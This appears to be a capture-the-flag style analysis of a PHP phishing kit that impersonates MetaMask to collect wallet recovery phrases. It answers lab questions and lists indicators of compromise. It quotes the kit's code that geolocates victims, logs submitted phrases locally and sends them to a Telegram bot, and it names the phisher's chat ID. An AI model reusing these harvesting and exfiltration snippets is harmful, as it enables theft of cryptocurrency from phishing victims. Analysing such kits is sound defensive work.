



# Phishing Kit Analysis

## Overview

This investigation examines a phishing kit that impersonates MetaMask and targets cryptocurrency wallet users by collecting their wallet recovery phrases (seed phrases).

The analysis covers the kit's directory structure, its PHP backend, and locally stored logs. The findings show how the kit gathers victim information, sends collected data through Telegram, and appends submitted phrases to a local log file.

## Initial Directory Structure

The directory listing shows the main components of the kit, including the PHP-related files, application source, assets, and the local `log` directory.



## Investigation Findings

### Q1. Which wallet is used for asking the seed phrase?

**Answer: MetaMask**

**Analysis:**

The `metamask.php` file explicitly identifies the targeted wallet in the message template:

```php
<b>Wallet:</b> Metamask
```

This indicates that the phishing kit impersonates MetaMask when requesting the victim's recovery phrase.

### Q2. What is the file name that has the code for the phishing kit?

**Answer: `metamask.php`**

**Analysis:**

The `metamask.php` file contains the backend PHP code responsible for processing submitted data, collecting victim information, sending the collected information to a Telegram bot, and storing submitted recovery phrases locally.

**Evidence — PHP source code:**



### Q3. In which language was the kit written?

**Answer: PHP**

**Analysis:**

The backend uses PHP syntax and functions, including `$_POST`, `$_SERVER`, `file_get_contents()`, `json_decode()`, and `file_put_contents()`.

### Q4. What service does the kit use to retrieve the victim's machine information?

**Answer: Sypex Geo**

**Analysis:**

The PHP script queries the Sypex Geo API using the victim's IP address:

```php
$request = file_get_contents(
    "http://api.sypexgeo.net/json/".$_SERVER['REMOTE_ADDR']
);
```

The response is decoded, and the country and city are extracted:

```php
$array = json_decode($request);
$geo = $array->country->name_en;
$city = $array->city->name_en;
```

This provides geographic information associated with the victim's public IP address.

### Q5. How many seed phrases were already collected?

**Answer: 3**

**Analysis:**

The local `log.txt` file contains three previously collected seed-phrase entries.

**Evidence — local log entries:**



### Q6. Could you please provide the seed phrase associated with the most recent phishing incident?

**Answer: The 12-word recovery phrase in the latest log entry.**

**Analysis:**

The PHP code appends submitted data to the local log file:

```php
file_put_contents(
    $_SERVER['DOCUMENT_ROOT'].'/log/'.'log.txt',
    $text,
    FILE_APPEND
);
```

The `FILE_APPEND` flag adds each new entry to the end of the existing file. The latest entry therefore contains the phrase associated with the most recent recorded incident.

The actual recovery phrase is intentionally omitted from this public report because it is a wallet recovery credential.

### Q7. Which medium was used for credential dumping?

**Answer: Telegram**

**Analysis:**

The kit uses the Telegram Bot API to transmit the collected information. The `sendTel()` function constructs a request to Telegram's `sendMessage` endpoint:

```php
$filename = "https://api.telegram.org/bot".$token.
"/sendMessage?chat_id=".$id.
"&text=".urlencode($message).
"&parse_mode=html";

file_get_contents($filename);
```

The message includes the wallet name, submitted phrase, victim IP address, geographic information, and User-Agent.

### Q8. What is the token for accessing the channel?

**Answer: Telegram Bot API token identified in `metamask.php`.**

**Analysis:**

The token is assigned to the `$token` variable inside `sendTel()` and is used to authenticate requests to the Telegram Bot API.

The original token is redacted from this public report because it is an authentication credential.

### Q9. What is the Chat ID for the phisher's channel?

**Answer: `5442785564`**

**Analysis:**

The Chat ID is assigned to the `$id` variable inside `sendTel()`:

```php
$id = "5442785564";
```

It identifies the destination chat to which the phishing kit sends the collected information.

### Q10. What are the allies of the phish kit developer?

**Answer: `j1j1b1s@m3r0`**

**Analysis:**

A comment embedded in the PHP source contains a message signed with the alias `j1j1b1s@m3r0`. The comment refers to “my brothers” and ends with that signature, which is the identifier associated with the developer in this lab.

## Indicators of Compromise (IOCs)

| Indicator | Description |
|---|---|
| `metamask.php` | PHP phishing backend |
| `api.sypexgeo.net` | IP geolocation service |
| `api.telegram.org` | Telegram data exfiltration endpoint |
| `sendMessage` | Telegram Bot API method |
| `5442785564` | Telegram Chat ID |
| `/log/log.txt` | Local file used to store submitted recovery phrases |
| `data` | POST parameter used to receive the submitted phrase |
| `MetaMask` | Impersonated cryptocurrency wallet |
| `j1j1b1s@m3r0` | Alias found in the source-code comment |

## Conclusion

The investigation identified a phishing kit impersonating MetaMask to harvest cryptocurrency wallet recovery phrases. Its PHP backend uses Sypex Geo to retrieve location information associated with victims' IP addresses, sends collected data to a Telegram bot, and appends submitted phrases to a local log file.

The analysis found three previously collected recovery phrases and identified additional artifacts, including the Telegram Chat ID and a developer alias. Sensitive recovery-phrase and bot-token values have been excluded from this public write-up.
